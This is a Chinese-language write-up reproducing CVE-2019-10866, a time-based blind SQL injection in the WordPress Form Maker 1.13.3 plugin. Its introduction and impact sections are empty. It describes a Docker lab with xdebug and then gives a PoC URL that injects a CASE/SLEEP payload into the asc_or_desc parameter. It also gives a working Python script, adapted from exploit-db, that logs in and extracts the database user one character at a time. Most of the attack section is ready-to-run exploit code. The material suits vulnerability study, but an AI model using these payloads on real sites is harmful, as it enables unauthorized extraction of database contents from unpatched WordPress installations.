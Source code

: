 （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入
===============================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

    FROM medicean/vulapps:base_lamp_php7

    RUN pecl install xdebug

    COPY php.ini /etc/php/7.0/apache2/
    COPY php.ini /etc/php/7.0/cli/

docker-compose文件:

    version: '3'
    services:
      lamp-php7:
        build: .
        ports:
          - "80:80"
        volumes:
          - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
          - "/Users/mengchen/Security/Code Audit/tmp:/tmp"

php.ini中xdebug的配置

    [xdebug]
    zend_extension="/usr/lib/php/20151012/xdebug.so"
    xdebug.remote_enable=1
    xdebug.remote_host=10.254.254.254
    xdebug.remote_port=9000
    xdebug.remote_connect_back=0
    xdebug.profiler_enable=0
    xdebug.idekey=PHPSTORM
    xdebug.remote_log="/tmp/xdebug.log"

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

    sudo ifconfig lo0 alias 10.254.254.254

PHPStorm也要配置好相对路径:

![](resource/(CVE-2019-10866)WordPressPlugin-FormMaker1.13.3sql注入/media/rId25.png)

插件下载地址:

    https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

    http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display¤t_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b

Python脚本，修改自exploit-db

    #coding:utf-8
    import requests
    import time

    vul_url = "http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display¤t_id=2&order_by=group_id&asc_or_desc="
    S = requests.Session()
    S.headers.update({"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3", "Referer": "http://127.0.0.1/wp-login.php?loggedout=true", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"})
    length = 0
    TIME = 3
    username = "admin"
    password = "admin"

    def login(username, password):
        data = {
            "log": "admin", 
            "pwd": "admin", 
            "wp-submit": "\xe7\x99\xbb\xe5\xbd\x95", 
            "redirect_to": "http://127.0.0.1/wp-admin/", 
            "testcookie": "1"
            }
        r = S.post('http://127.0.0.1/wp-login.php', data=data, cookies = {"wordpress_test_cookie": "WP+Cookie+check"})


    def attack():
        flag = True
        data = ""
        length = 1
        while flag:
            flag = False
            tmp_ascii = 0
            for ascii in range(32, 127):
                tmp_ascii = ascii
                start_time = time.time()
                payload = "{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b".format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)
                #print(payload)
                r = S.get(payload)
                tmp = time.time() - start_time
                if tmp >= TIME:
                    flag = True
                    break
            if flag:
                data += chr(tmp_ascii)
                length += 1
            print(data)
    login(username, password)
    attack()

image

